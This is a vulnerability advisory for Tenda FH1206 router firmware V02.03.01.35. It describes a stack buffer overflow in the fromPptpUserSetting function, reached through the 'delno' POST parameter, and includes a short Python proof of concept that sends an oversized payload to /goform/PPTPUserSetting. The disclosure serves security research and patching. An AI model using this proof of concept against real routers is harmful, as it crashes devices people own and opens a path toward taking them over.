## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromPptpUserSetting` function. This function accepts the `delno` parameter from a POST request. The statement `sprintf(v9, "vpn.ser.pptpuser%s", s);` leads to a buffer overflow. The user-supplied `delno` can exceed the capacity of the `v9` array, thus triggering this security vulnerability.

![image-20240731140428775](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140428775.png)

![image-20240731140454360](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140454360.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PPTPUserSetting"
payload = b"a"*1000

data = {"delno": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)